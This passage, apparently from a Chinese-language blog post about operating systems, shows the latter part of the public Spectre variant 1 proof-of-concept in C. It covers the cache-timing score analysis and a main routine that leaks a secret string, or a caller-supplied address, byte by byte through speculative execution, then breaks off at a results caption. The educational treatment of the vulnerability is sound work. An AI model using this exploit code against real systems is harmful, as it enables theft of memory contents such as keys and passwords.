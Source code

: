 ```c
        j = k = -1;
        for (i = 0; i < 256; i++) {
            if (j < 0 || results[i] >= results[j]) {
                k = j;
                j = i;
            } else if (k < 0 || results[i] >= results[k]) {
                k = i;
            }
        }
        if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
            break;  /* Clear success if best is > 2*runner-up + 5 or 2/0) */
    }
    results[0] ^= junk;  /* use junk so code above won't get optimized out*/
    value[0] = (uint8_t)j;
    score[0] = results[j];
    value[1] = (uint8_t)k;
    score[1] = results[k];
}

int main(int argc, const char **argv) {
    size_t malicious_x=(size_t)(secret-(char*)array1);   /* default for malicious_x */
    int i, score[2], len=40;
    uint8_t value[2];

    for (i = 0; i < sizeof(array2); i++)
        array2[i] = 1;    /* write to array2 so in RAM not copy-on-write zero pages */
    if (argc == 3) {
        sscanf(argv[1], "%p", (void**)(&malicious_x));
        malicious_x -= (size_t)array1;  /* Convert input value into a pointer */
        sscanf(argv[2], "%d", &len);
    }
    
    printf("Reading %d bytes:\n", len);
    while (--len >= 0) {
        printf("Reading at malicious_x = %p... ", (void*)malicious_x);
        readMemoryByte(malicious_x++, value, score);
        printf("%s: ", (score[0] >= 2*score[1] ? "Success" : "Unclear"));
        printf("0x%02X='%c' score=%d    ", value[0], 
            (value[0] > 31 && value[0] < 127 ? value[0] : '?'), score[0]);
        if (score[1] > 0)
            printf("(second best: 0x%02X score=%d)", value[1], score[1]);
        printf("\n");
    }
    return (0);
}
```

![示意图](/img/post_pics/os/spectre.png)

运行结果：
